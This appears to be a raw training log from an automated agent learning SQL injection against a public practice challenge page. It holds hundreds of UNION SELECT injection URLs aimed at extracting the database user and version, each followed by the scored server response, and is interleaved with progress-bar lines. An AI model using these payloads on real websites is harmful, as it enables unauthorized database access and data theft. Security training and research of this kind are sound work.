 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server resp

  0%|          | 804/1000000 [4:32:52<3330:47:38, 12.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server resp

  0%|          | 805/1000000 [4:35:49<17032:45:52, 61.37s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 806/1000000 [4:35:49<12000:41:08, 43.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 807/1000000 [4:35:50<8475:31:20, 30.54s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?

  0%|          | 808/1000000 [4:36:14<7934:07:08, 28.59s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 809/1000000 [4:36:15<5631:45:26, 20.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Se

  0%|          | 810/1000000 [4:36:59<7595:05:34, 27.36s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 811/1000000 [4:37:00<5392:06:24, 19.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 812/1000000 [4:37:01<3872:04:34, 13.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 813/1000000 [4:37:02<2784:34:07, 10.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 814/1000000 [4:37:03<2026:08:43,  7.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax err

  0%|          | 815/1000000 [4:37:26<3353:33:56, 12.08s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 816/1000000 [4:37:27<2423:04:30,  8.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 817/1000000 [4:37:29<1850:08:07,  6.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 818/1000000 [4:37:30<1369:00:03,  4.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of

  0%|          | 819/1000000 [4:37:42<1931:46:48,  6.96s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=

  0%|          | 820/1000000 [4:38:18<4396:28:59, 15.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 821/1000000 [4:38:32<4226:47:16, 15.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server r

  0%|          | 822/1000000 [4:38:45<4048:04:48, 14.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 823/1000000 [4:38:46<2914:31:11, 10.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 824/1000000 [4:38:47<2114:30:41,  7.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 825/1000000 [4:39:34<5420:04:38, 19.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 826/1000000 [4:39:36<3955:16:56, 14.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 827/1000000 [4:39:37<2843:23:37, 10.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 828/1000000 [4:40:41<7328:14:38, 26.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 

  0%|          | 829/1000000 [4:40:59<6588:39:05, 23.74s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 830/1000000 [4:41:01<4763:50:16, 17.16s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 831/1000000 [4:41:01<3408:37:13, 12.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server

  0%|          | 832/1000000 [4:42:55<11800:38:04, 42.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number o

  0%|          | 833/1000000 [4:44:19<15303:22:31, 55.14s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server 

  0%|          | 834/1000000 [4:44:52<13419:10:06, 48.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 835/1000000 [4:44:53<9469:23:45, 34.12s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 836/1000000 [4:46:24<14272:14:42, 51.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server re

  0%|          | 837/1000000 [4:48:14<19095:18:47, 68.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,us

  0%|          | 838/1000000 [4:49:45<20948:37:40, 75.48s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 839/1000000 [4:49:46<14738:12:40, 53.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 840/1000000 [4:49:47<10393:06:23, 37.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 841/1000000 [4:49:48<7356:11:33, 26.50s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 842/1000000 [4:49:48<5224:51:50, 18.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3

  0%|          | 843/1000000 [4:50:49<8687:37:52, 31.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 844/1000000 [4:50:51<6235:23:23, 22.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 845/1000000 [4:50:53<4514:22:23, 16.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 846/1000000 [4:50:57<3510:54:38, 12.65s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 847/1000000 [4:50:58<2533:55:12,  9.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 848/1000000 [4:50:59<1854:54:50,  6.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. 

  0%|          | 849/1000000 [4:51:26<3542:08:33, 12.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 850/1000000 [4:51:27<2562:17:56,  9.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 851/1000000 [4:51:27<1868:13:01,  6.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sele

  0%|          | 852/1000000 [4:53:42<12527:38:02, 45.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https:

  0%|          | 853/1000000 [4:54:48<14214:34:27, 51.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 854/1000000 [4:54:49<10031:11:31, 36.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 855/1000000 [4:54:50<7175:02:03, 25.85s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 856/1000000 [4:54:51<5104:50:38, 18.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
